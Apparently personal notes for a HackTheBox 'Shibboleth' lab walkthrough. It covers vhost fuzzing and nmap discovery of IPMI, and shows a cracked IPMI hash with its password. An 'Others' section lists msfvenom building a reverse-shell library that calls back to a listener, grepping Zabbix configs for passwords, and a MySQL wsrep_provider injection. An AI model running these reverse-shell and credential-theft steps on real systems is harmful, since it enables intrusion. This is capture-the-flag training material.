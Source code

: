 ### writeups
* https://github.com/A1vinSmith/OSWE-EXP/tree/main/HackTheBox/Linux/Zipper
* https://infosecwriteups.com/shibboleth-hackthebox-walkthrough-f5c52d8949cf

### ffuf Vhosts Fuzzing
```
ffuf -u "http://shibboleth.htb/" -H "Host:FUZZ.shibboleth.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -fc 302
```

Add them to the hosts
```
monitor                 [Status: 200, Size: 3686, Words: 192, Lines: 30]
monitoring              [Status: 200, Size: 3686, Words: 192, Lines: 30]
zabbix                  [Status: 200, Size: 3686, Words: 192, Lines: 30]
```

##### Vhosts vs. Sub-domains
The key difference between VHosts and sub-domains is that a VHost is basically a 'sub-domain' served on the same server and has the same IP, such that a single IP could be serving two or more different websites.

VHosts may or may not have public DNS records.

In many cases, many websites would actually have sub-domains that are not public and will not publish them in public DNS records, and hence if we visit them in a browser, we would fail to connect, as the public DNS would not know their IP. Once again, if we use the sub-domain fuzzing, we would only be able to identify public sub-domains but will not identify any sub-domains that are not public.

This is where we utilize VHosts Fuzzing on an IP we already have. We will run a scan and test for scans on the same IP, and then we will be able to identify both public and non-public sub-domains and VHosts.

### Nmap UDP the Sub-domains
##### Get running ports with rustscan
```

❯ docker pull rustscan/rustscan:latest
❯ docker run -it --rm --name rustscan rustscan/rustscan:1.10.0 10.129.187.84
```
##### Nmap the opening ports
```
❯ sudo nmap -sU -p 623 zabbix.shibboleth.htb
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-16 20:17 NZDT
Nmap scan report for zabbix.shibboleth.htb (10.129.187.84)
Host is up (0.26s latency).
rDNS record for 10.129.187.84: shibboleth.htb

PORT    STATE SERVICE
623/udp open  asf-rmcp

Nmap done: 1 IP address (1 host up) scanned in 0.66 seconds
```

### Google exploit asf-rmcp
* https://book.hacktricks.xyz/pentesting/623-udp-ipmi

##### Check version and dump hashes
```
hashcat -m 7300 hash /usr/share/wordlists/rockyou.txt
```

```
7c52d90982030000c46a8fbe259e2846070afb69ee206ad2e54ddc8fba4f43ff579e27b0442748eaa123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:d78f8dffe25735b4e9cc37c51519adb34b60fbaf:ilovepumkinpie1
```

### Others
```
system.run[command]

msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.29 LPORT=6666 -f elf-so -o elf

grep -iR 'password' /etc/zabbix/

mysql -D zabbix -u zabbix -pPasswordFoundAbove

SET GLOBAL wsrep_provider="/home/ipmi-svc/elf";
```
